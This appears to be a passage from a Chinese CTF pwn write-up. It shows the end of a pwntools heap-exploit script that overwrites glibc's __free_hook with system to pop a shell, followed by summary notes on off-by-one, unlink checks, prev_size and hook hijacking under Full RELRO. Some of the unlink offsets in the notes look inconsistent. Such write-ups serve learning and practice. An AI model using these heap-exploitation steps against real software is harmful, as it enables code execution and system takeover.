 ```python
free_hook = libc_base + libc.symbols['__free_hook']
log.info("free_hook:"+hex(free_hook))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))

payload = p64(free_hook)
edit(4,payload)

payload = p64(system)
edit(6,payload)

remove(6)


p.interactive()
```

### 小结

* off-by-one 思路中通过申请一个非常大的 chunk ，让程序通过 mmap 分配内存，该内存地址与 libc 有固定偏移

* 程序自动分配的[第一个堆](# 在Ubuntu16下出现情况)，在师兄提醒下大概是因为程序没有初始化缓冲区，程序会自动申请一个堆用作缓存区。

* 现代 unlink

  * 满足检查条件：

    `fakeFD -> bk == P` <=> `*(fakeFD + 12) == P`

    `fakeBK -> fd == P` <=> `*(fakeBK + 8) == P`

  * 实现效果：

    `*P = P - 8`

    `*P = P - 12`

    P 的指针指向了比自己低 12 的地址处

* prev_size 是前一个 chunk 的大小（含 chunk head），简单计算方法：上一个 chunk 指针减去 next chunk 指针的值。

* unlink 思路中计算错了 chunk 大小，触发了 ``double free or corruption (!prev)`` 。最后查证是因为被释放 chunk size 被修改错误，导致找不到 next chunk 的 prev_inuse 信息而导致报错``没有找到 chunk 的标志信息``

* ``RELRO:    Full RELRO`` 程序不能修改 got 表，我们就去修改 \_\_malloc_hook、\_\_free_hook 等 hook 函数，具体原理可以看源码，**在进入 malloc 或者 free 会先去查对应的 hook 函数是否不会空，如果不为空则去执行 hook 指向的函数**。

  * malloc 的参数是 int ，所以改 malloc 相关函数一般改为 onegadget
  * free 的参数是 地址，所以改 free 相关函数可以改为 onegadget 或者 system 然后传入 ``/bin/sh`` 字符串的地址

  

